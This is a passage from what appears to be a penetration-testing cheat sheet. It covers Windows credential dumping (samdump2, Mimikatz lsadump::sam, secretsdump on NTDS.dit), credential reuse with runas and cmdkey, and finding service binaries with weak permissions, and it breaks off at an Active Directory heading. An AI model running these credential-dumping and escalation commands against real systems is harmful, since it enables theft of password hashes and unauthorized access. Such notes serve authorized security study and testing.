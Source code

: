 samdump2 system sam
```
- Sometimes this doesn't work so try Mimikatz
```
lsadump::sam /system:SYSTEM /sam:SAM
```

#### NTDS.dit
- If yu gain access to ntds.dit, system and security you can dump with secretsdump using
```
secretsdump.py -ntds ntds.dit -system system -security security local
```
#### RunAs
- If we have gained a set of creds we can attempt to use these with runas
```
runas /user:backupadmin cmd
```
- We may also pick up stored creds abusing this by running the following
```
cmdkey /list
```

#### Vulnerable Service 
- List all installed services that are running
```
Get-Service
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
- Running and stopped services
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
- May not work with Winrm
- Check permissions on binaries
```
icacls "C:\xampp\apache\bin\httpd.exe"
```
- Permissions of interest
Mask 	Permissions
F 	Full access
M 	Modify access
RX 	Read and execute access
R 	Read-only access
W 	Write-only access 
- Start and stop services
```
net stop mysql
```
- Check if the service has Auto as start mode
```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```
- If so shutdown with
```
shutdown /r /t 0
```
##### Scheduled Tasks
- View scheduled tasks with
```
Get-ScheduledTask
schtasks /query /fo LIST -v
```

# Active Directory
## Initial Access
### SMBRelay
```